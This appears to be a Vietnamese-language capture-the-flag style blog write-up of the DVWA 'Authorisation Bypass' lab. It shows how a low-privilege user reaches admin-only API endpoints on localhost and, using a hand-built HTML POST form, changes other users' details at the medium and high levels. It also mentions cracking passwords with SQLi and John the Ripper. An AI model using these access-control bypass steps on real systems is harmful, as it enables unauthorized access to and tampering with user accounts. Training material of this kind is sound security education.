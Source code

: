 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: Authorisation Bypass
description: >
  
search:
  exclude: true
hide:
  - feedback

tags:
  - DVWA
  - Authorisation Bypass
---
```


# __Authorisation Bypass__

---

## __About__

When developers have to build authorisation matrices into complex systems it is easy for them to miss adding the right checks in every place, especially those which are not directly accessible through a browser, for example API calls.

As a tester, you need to be looking at every call a system makes and then testing it using every level of user to ensure that the checks are being carried out correctly. This can often be a long and boring task, especially with a large matrix with lots of different user types, but it is critical that the testing is carried out as one missed check could lead to an attacker gaining access to confidential data or functions.


## __Objective__

Your goal is to test this user management system at all four security levels to identify any areas where authorisation checks have been missed.

The system is only designed to be accessed by the admin user, so have a look at all the calls made while logged in as the admin, and then try to reproduce them while logged in as different user.

If you need a second user, you can use gordonb/abc123. 

## __Security Level: Low__

Source code

```php title="vulnerabilities/authbypass/source/low.php"
--8<-- "dvwa/authorisation-bypass/sources/low.php"
```


### __Analysis__

Khi vào challenge này, ta được thông báo như hình dưới

![](image.png)

Điều đó có nghĩa là, ta cần phải logout user admin và login 1 user khác:

1. Dùng SQLi và `John The Ripper` để tìm password của các user khác
2. Login bằng user trong thông báo `gordonb/abc123`

Sau khi login bằng user gordonb, ta không hề thấy mục `Authorisation Bypass` nữa

![](image-1.png)

Cùng xem lại danh sách challenge xuất hiện trong vai trò admin trong hình bên dưới

![Full challenge](image-2.png)

Để ý rằng, url của challenge là `http://localhost:4280/vulnerabilities/authbypass/` và trong cấp độ này, không hề có kiểm tra đầu vào cũng như kiểm tra người dùng, nên ta dễ dàng truy cập được trực tiếp trang `Authorisation Bypass` với user `gordonb`

> Authorisation bypass được hiểu đơn giản là dùng một vài "thủ thuật" để truy cập những tài nguyên mà nội tại user đó không có quyền truy cập tới. "Thủ thuật" này có được là nhờ vào đội triển khai chưa có những chiếc lược phòng vệ kĩ càng.

### __Exploition__


---

## __Security Level: Medium__

Source code

```php title="vulnerabilities/authbypass/source/medium.php"
--8<-- "dvwa/authorisation-bypass/sources/medium.php"
```

### __Analysis__

Challenge này cung cấp cho ta 2 API, 1 cho GET thông tin các user, 1 cho POST mang mục đích đổi thông tin user:

- HTTP GET: localhost:4280/vulnerabilities/authbypass/get_user_data.php
- HTTP POST: http://localhost:4280/vulnerabilities/authbypass/change_user_details.php

Điều ngạc nhiên hơn. Mặc dù với user `gordonb`, ta không truy cập được vào trang challenge nhưng lại có thể truy cập được vào 2 API

![](image-5.png)

```json
[{"user_id":"1","first_name":"admin","surname":"admin"},{"user_id":"2","first_name":"Gordon","surname":"Brown"},{"user_id":"3","first_name":"Hack","surname":"Me"},{"user_id":"4","first_name":"Pablo","surname":"Picasso"},{"user_id":"5","first_name":"Bob","surname":"Smith"}]
```

Điều này có nghĩa là, ta có thể sử dụng 2 API đó và có thể khai thác được gì đó từ cái API dùng HTTP POST. Việc này chứng tỏ ta đã authorisation bypass thành công.

### __Exploition__

Oke, triển khai thôi nào. Đầu tiên là tạo 1 form HTTP POST cơ bản nhằm gửi request lên API `http://localhost:4280/vulnerabilities/authbypass/change_user_details.php`

```html
<!DOCTYPE html>
<html>
<head>
    <title>POST Data to Web Page</title>
</head>
<body>
    <h1>Enter User Information</h1>
    <form action="http://localhost:4280/vulnerabilities/authbypass/change_user_details.php" method="post">
     

        <label for="user_id">ID:</label>
        <input type="text" id="user_id" name="user_id" value="2"><br><br>

        <label for="first_name">First Name:</label>
        <input type="text" id="first_name" name="first_name" value="admin"><br><br>

        <label for="surname">Surname:</label>
        <input type="text" id="surname" name="surname" value="admin"><br><br>

        <input type="submit" value="Submit">
    </form>
</body>
</html>
```

Ta thấy rằng user có user_id=1 chính là admin. Ta thử chỉnh sửa tại nơi có user_id=2 thành "first_name":"admin","surname":"admin"

![](image-3.png)

Và điều ngạc nhiên là ta hoàn toàn có thể chỉnh sửa thông tin các user (xem hình dưới), nhưng hoàn toàn không vào được trang `http://localhost:4280/vulnerabilities/authbypass/`

![Thay đổi thông tin user thông qua user gordonb](image-4.png)

Hoàn thành thử thách.

---

## __Security Level: High__

Source code

```php title="vulnerabilities/authbypass/source/high.php"
--8<-- "dvwa/authorisation-bypass/sources/high.php"
```

### __Analysis__

Ở cấp độ này, họ chặn không cho người dùng bình thường truy cập vào API dùng HTTP GET nhưng lại quên chặn cái POST, dẫn đến việc ta vẫn có thể dễ dàng thay đổi thông tin các user từ user `gordonb`

![](image-6.png)

![](image-7.png)

---

## __Security Level: Impossible__

Source code

```php title="vulnerabilities/authbypass/source/impossible.php"
--8<-- "dvwa/authorisation-bypass/sources/impossible.php"
```

### __Analysis__



Hopefully on this level all the functions correctly check authorisation before allowing access to the data.

There may however be some non-authorisation related issues on the page, so do not write it off as fully secure. 

---

## __More Information__

- Reference: https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/05-Authorization_Testing/02-Testing_for_Bypassing_Authorization_Schema
- Reference: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/04-Testing_for_Bypassing_Authentication_Schema
- Reference: https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication